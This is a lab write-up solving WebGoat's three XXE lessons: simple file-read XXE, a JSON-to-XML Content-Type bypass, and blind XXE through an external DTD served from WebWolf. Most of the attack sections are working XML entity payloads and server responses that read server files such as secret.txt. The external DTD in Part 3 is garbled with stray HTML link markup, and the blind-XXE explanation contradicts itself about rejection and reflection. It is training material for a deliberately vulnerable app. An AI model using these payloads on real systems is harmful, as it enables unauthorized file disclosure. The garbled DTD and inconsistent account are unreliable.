# XML External Entity (XXE) Injection — WebGoat

**Category:** A5 Security Misconfiguration (WebGoat sidebar grouping)
**Lessons covered:** Simple XXE, Modern REST framework (JSON-to-XML content-type bypass), Blind XXE

## Objective

Show that an XML parser configured to resolve external entities (the default in a lot of XML libraries unless explicitly hardened) lets an attacker read arbitrary files off the server — first in-band where the result is reflected straight back, then against an endpoint that only *claims* to accept JSON, and finally fully out-of-band (OOB) where the response never echoes anything back at all.

## Vulnerability

XXE (CWE-611) happens when an application parses attacker-supplied XML with a parser that still resolves `DOCTYPE`/`ENTITY` declarations. A `SYSTEM` entity can point at a local file path (`file:///...`) or a remote URL, and whatever that entity resolves to gets substituted wherever the entity is referenced in the document — including into a field the app later stores or redisplays, like a "comment."

WebGoat's `/xxe/*` endpoints back a photo-comment feature. The comment itself is submitted as XML under the hood, which makes it a direct target for this.

---

## Part 1 — Simple XXE

**Goal:** inject through the comment field and list the root directory of the filesystem.

1. The lesson is a normal-looking comment box under a photo.

   

2. Captured a normal comment submission in Burp and replaced the body with a crafted `DOCTYPE` that declares an external entity pointing at the filesystem root, then referenced it inside the comment text:

   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE comment [
   <!ENTITY xxe SYSTEM "file:///">
   ]>
   <comment>
     <text>
       &xxe;
     </text>
   </comment>
   ```

   WebGoat's XML parser resolved `&xxe;` to a directory listing of `/` and reflected it straight back into the response:

   ```json
   {"lessonCompleted":true,"feedback":"Congratulations. You have successfully completed the assignment.","assignment":"SimpleXXE","attemptWasMade":true}
   ```
    
   

### Why It Worked

The backend's XML parser had external entity resolution enabled by default and did nothing to validate or sandbox what a `SYSTEM` identifier could point at. Since the resolved entity gets echoed back into the comment, this is about as "in-band" as XXE gets — no need for any out-of-band channel.

---

## Part 2 — Modern REST Framework (Content-Type Bypass)

**Goal:** same attack, but against an endpoint the UI presents as a modern JSON-only REST API.

> "In modern REST frameworks the server might be able to accept data formats that you as a developer did not think about. So this might result in JSON endpoints being vulnerable to XXE attacks."

1. Lesson overview — same comment/photo UI, same underlying idea.

   

2. Captured the request and simply changed the `Content-Type` header from `application/json` to `application/xml`, keeping the same XXE payload as Part 1 (with a bit of extra reflected text to confirm it):

   ```
   Content-Type: application/xml
   ```
   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE comment [
   <!ENTITY xxe SYSTEM "file:///">
   ]>
   <comment>
     <text>
       &xxe;This is me.
     </text>
   </comment>
   ```

   The server happily parsed it as XML and resolved the entity anyway:

   ```json
   {"lessonCompleted":true,"feedback":"Congratulations. You have successfully completed the assignment.","assignment":"ContentTypeAssignment","attemptWasMade":true}
   ```

   

### Why It Worked

The endpoint's Spring (or similar) content negotiation happily switches parsers based on the `Content-Type` header the *client* sends, not on what the API is documented/intended to accept. There's no server-side allow-list rejecting anything other than JSON, so simply declaring the body as XML was enough to route it straight into the same vulnerable XML parser as Part 1 — a classic case of "the framework will parse whatever you tell it to," regardless of what the developer assumed callers would send.

---

## Part 3 — Blind XXE

**Goal:** this endpoint (`/xxe/blind`) never reflects anything back, so read a file the normal way won't work — the exfiltration has to happen out-of-band, with the leaked content fetched *to* an attacker-controlled server (WebWolf) instead of returned in the HTTP response.

```
secret.txt location (given by the lesson):
/home/webgoat/.webgoat-2025.3/XXE/pepo11/secret.txt
```

1. Lesson overview — confirms it's blind, and that WebWolf's landing endpoint (`http://127.0.0.1:9090/WebWolf/landing`) is under my control to receive the exfiltrated data.

   

2. First, confirmed the endpoint really is blind: sent the same in-band technique from Part 1 (entity defined inline, pointed straight at `secret.txt`) — it's accepted as valid XML, but the response never contains the file's contents, and the lesson isn't marked solved:

   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE comment [
   <!ENTITY xxe SYSTEM "file:///home/webgoat/.webgoat-2025.3/XXE/pepo11/secret.txt">
   ]>
   <comment>
     <text>
       &xxe;
     </text>
   </comment>
   ```

   ```json
   {"lessonCompleted":false,"feedback":"Sorry the solution is not correct, please try again.","assignment":"BlindSendFileAssignment","attemptWasMade":true}
   ```

   

   (Also tried posting a harmless comment directly through the page first, just to see the normal request shape before modifying it — same "not correct" result, as expected, since no exploit was in the payload yet.)

   
   

3. Since the response gives nothing back, and a direct inline `<!ENTITY xxe SYSTEM "file://...">` gets rejected, the endpoint is clearly filtering the *raw submitted XML* for an obvious `SYSTEM "file://"` declaration. The fix: move the entity declaration out of the request entirely, into an externally-hosted DTD, as this assignment states in it's description:

```xml

  <?xml version="1.0" encoding="UTF-8"?>
  <!ENTITY xxe SYSTEM '<a href="http://127.0.0.1:9090/WebWolf/landing" 
 target="http://127.0.0.1/WebGoat" rel="noopener"><a href="http://127.0.0.1:9090/WebWolf/landing" class="bare">http://127.0.0.1:9090/WebWolf/landing</a></a>'>
 
```

   

4. Uploaded `attack.dtd` to WebWolf so WebGoat's server can fetch it over HTTP.

   

5. Sent a request to `/WebGoat/xxe/blind` whose `DOCTYPE` references that external DTD instead of declaring the entity inline:

```xml
   <?xml version="1.0"?>
   <!DOCTYPE comment SYSTEM "http://127.0.0.1:9090/WebWolf/files/pepo11/attack.dtd">
   <comment>
     <text>&xxe;</text>
   </comment>
```

The filter never sees a `SYSTEM "file://"` string in this request — it only sees a reference to an external DTD — so it passed. WebGoat's parser then fetched `attack.dtd`, resolved `&xxe;` against its own filesystem, and reflected `secret.txt`'s contents straight into a new entry on `/WebGoat/xxe/comments`:

   
   

6. Lesson marked complete.

   
